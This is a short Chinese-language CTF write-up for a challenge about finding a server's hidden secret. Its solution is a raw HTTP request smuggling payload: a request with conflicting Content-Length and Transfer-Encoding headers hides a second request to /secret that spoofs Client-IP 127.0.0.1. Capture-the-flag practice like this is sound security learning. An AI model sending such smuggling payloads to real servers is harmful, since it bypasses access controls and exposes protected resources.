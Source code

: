 题目描述： 

**资料：https://paper.seebug.org/1048/**
宝藏走私者 Switch 喜欢偷盗并将奇特的宝藏走私到一些黑市商家手中。
为了阻止其继续作恶，警探 Liki 奉命将 Switch 抓捕归案。
调查过程中，Liki 发现 Switch 将一个秘密藏在了一个私人服务器中。
这或许会成为后续追查 Switch 的重大线索，你能找到这个秘密吗？ 

题目链接： [http://thief.0727.site:80](http://thief.0727.site/) 

**hint: 注意留意服务器信息** 



HTTP请求走私，资料里讲的很详细，建议仔细读一下，这里不做过多阐述

payload：

```
GET / HTTP/1.1
Host: thief.0727.site
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.104 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Content-Length: 95
Transfer-Encoding: chunked

0

GET /secret HTTP/1.1
Content-Length: 30
Host: thief.0727.site
Client-IP: 127.0.0.1

1
```
